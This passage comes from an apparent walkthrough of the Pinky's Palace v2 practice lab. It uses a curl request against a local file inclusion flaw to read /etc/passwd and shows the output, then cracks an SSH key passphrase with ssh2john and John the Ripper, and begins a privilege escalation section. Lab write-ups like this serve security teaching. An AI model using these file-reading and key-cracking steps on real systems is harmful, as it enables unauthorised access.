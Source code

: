 With the LFI vulnerability in mind, let's see if we can make use of it to display `/etc/passwd`.

```
# curl http://pinkydb:7654/pageegap.php?1337=/etc/passwd
root:x:0:0:root:/root:/bin/bash
...
pinky:x:1000:1000:pinky,,,:/home/pinky:/bin/bash
mysql:x:106:111:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
demon:x:1001:1001::/home/demon:/bin/bash
stefano:x:1002:1002::/home/stefano:/bin/bash
```

`stefano` has an account in `pinkydb` and we have his SSH private key from above. I guess that's an open invitation to log in to his account via SSH.

I log in to find his RSA private key protected by a password. In case you are panicking, it's not difficult to use `ssh2john` and John the Ripper to recover the password.

```
# ssh2john id_rsa > id_rsa.hash
# john --show id_rsa.hash
id_rsa:secretz101
```

With the password out of the way, it's almost trivial to log in to `stefano`'s account.

![screenshot-4](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-4.png)

## Privilege Escalation

I notice `/home/stefano/tools/qsub` and `/usr/local/bin/backup.sh` during enumeration of `stefano`'s account; they may be key pieces to the privilege escalation puzzle. Here's why.

_Image shows `pinky` and `www-data` have the rights to read `qsub`._

![screenshot-5](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-5.png)

_Image shows `demon` and `pinky` have the rights to edit `backup.sh`._

![screenshot-6](/assets/images/posts/pinkys-palace-v2-walkthrough/screenshot-6.png)
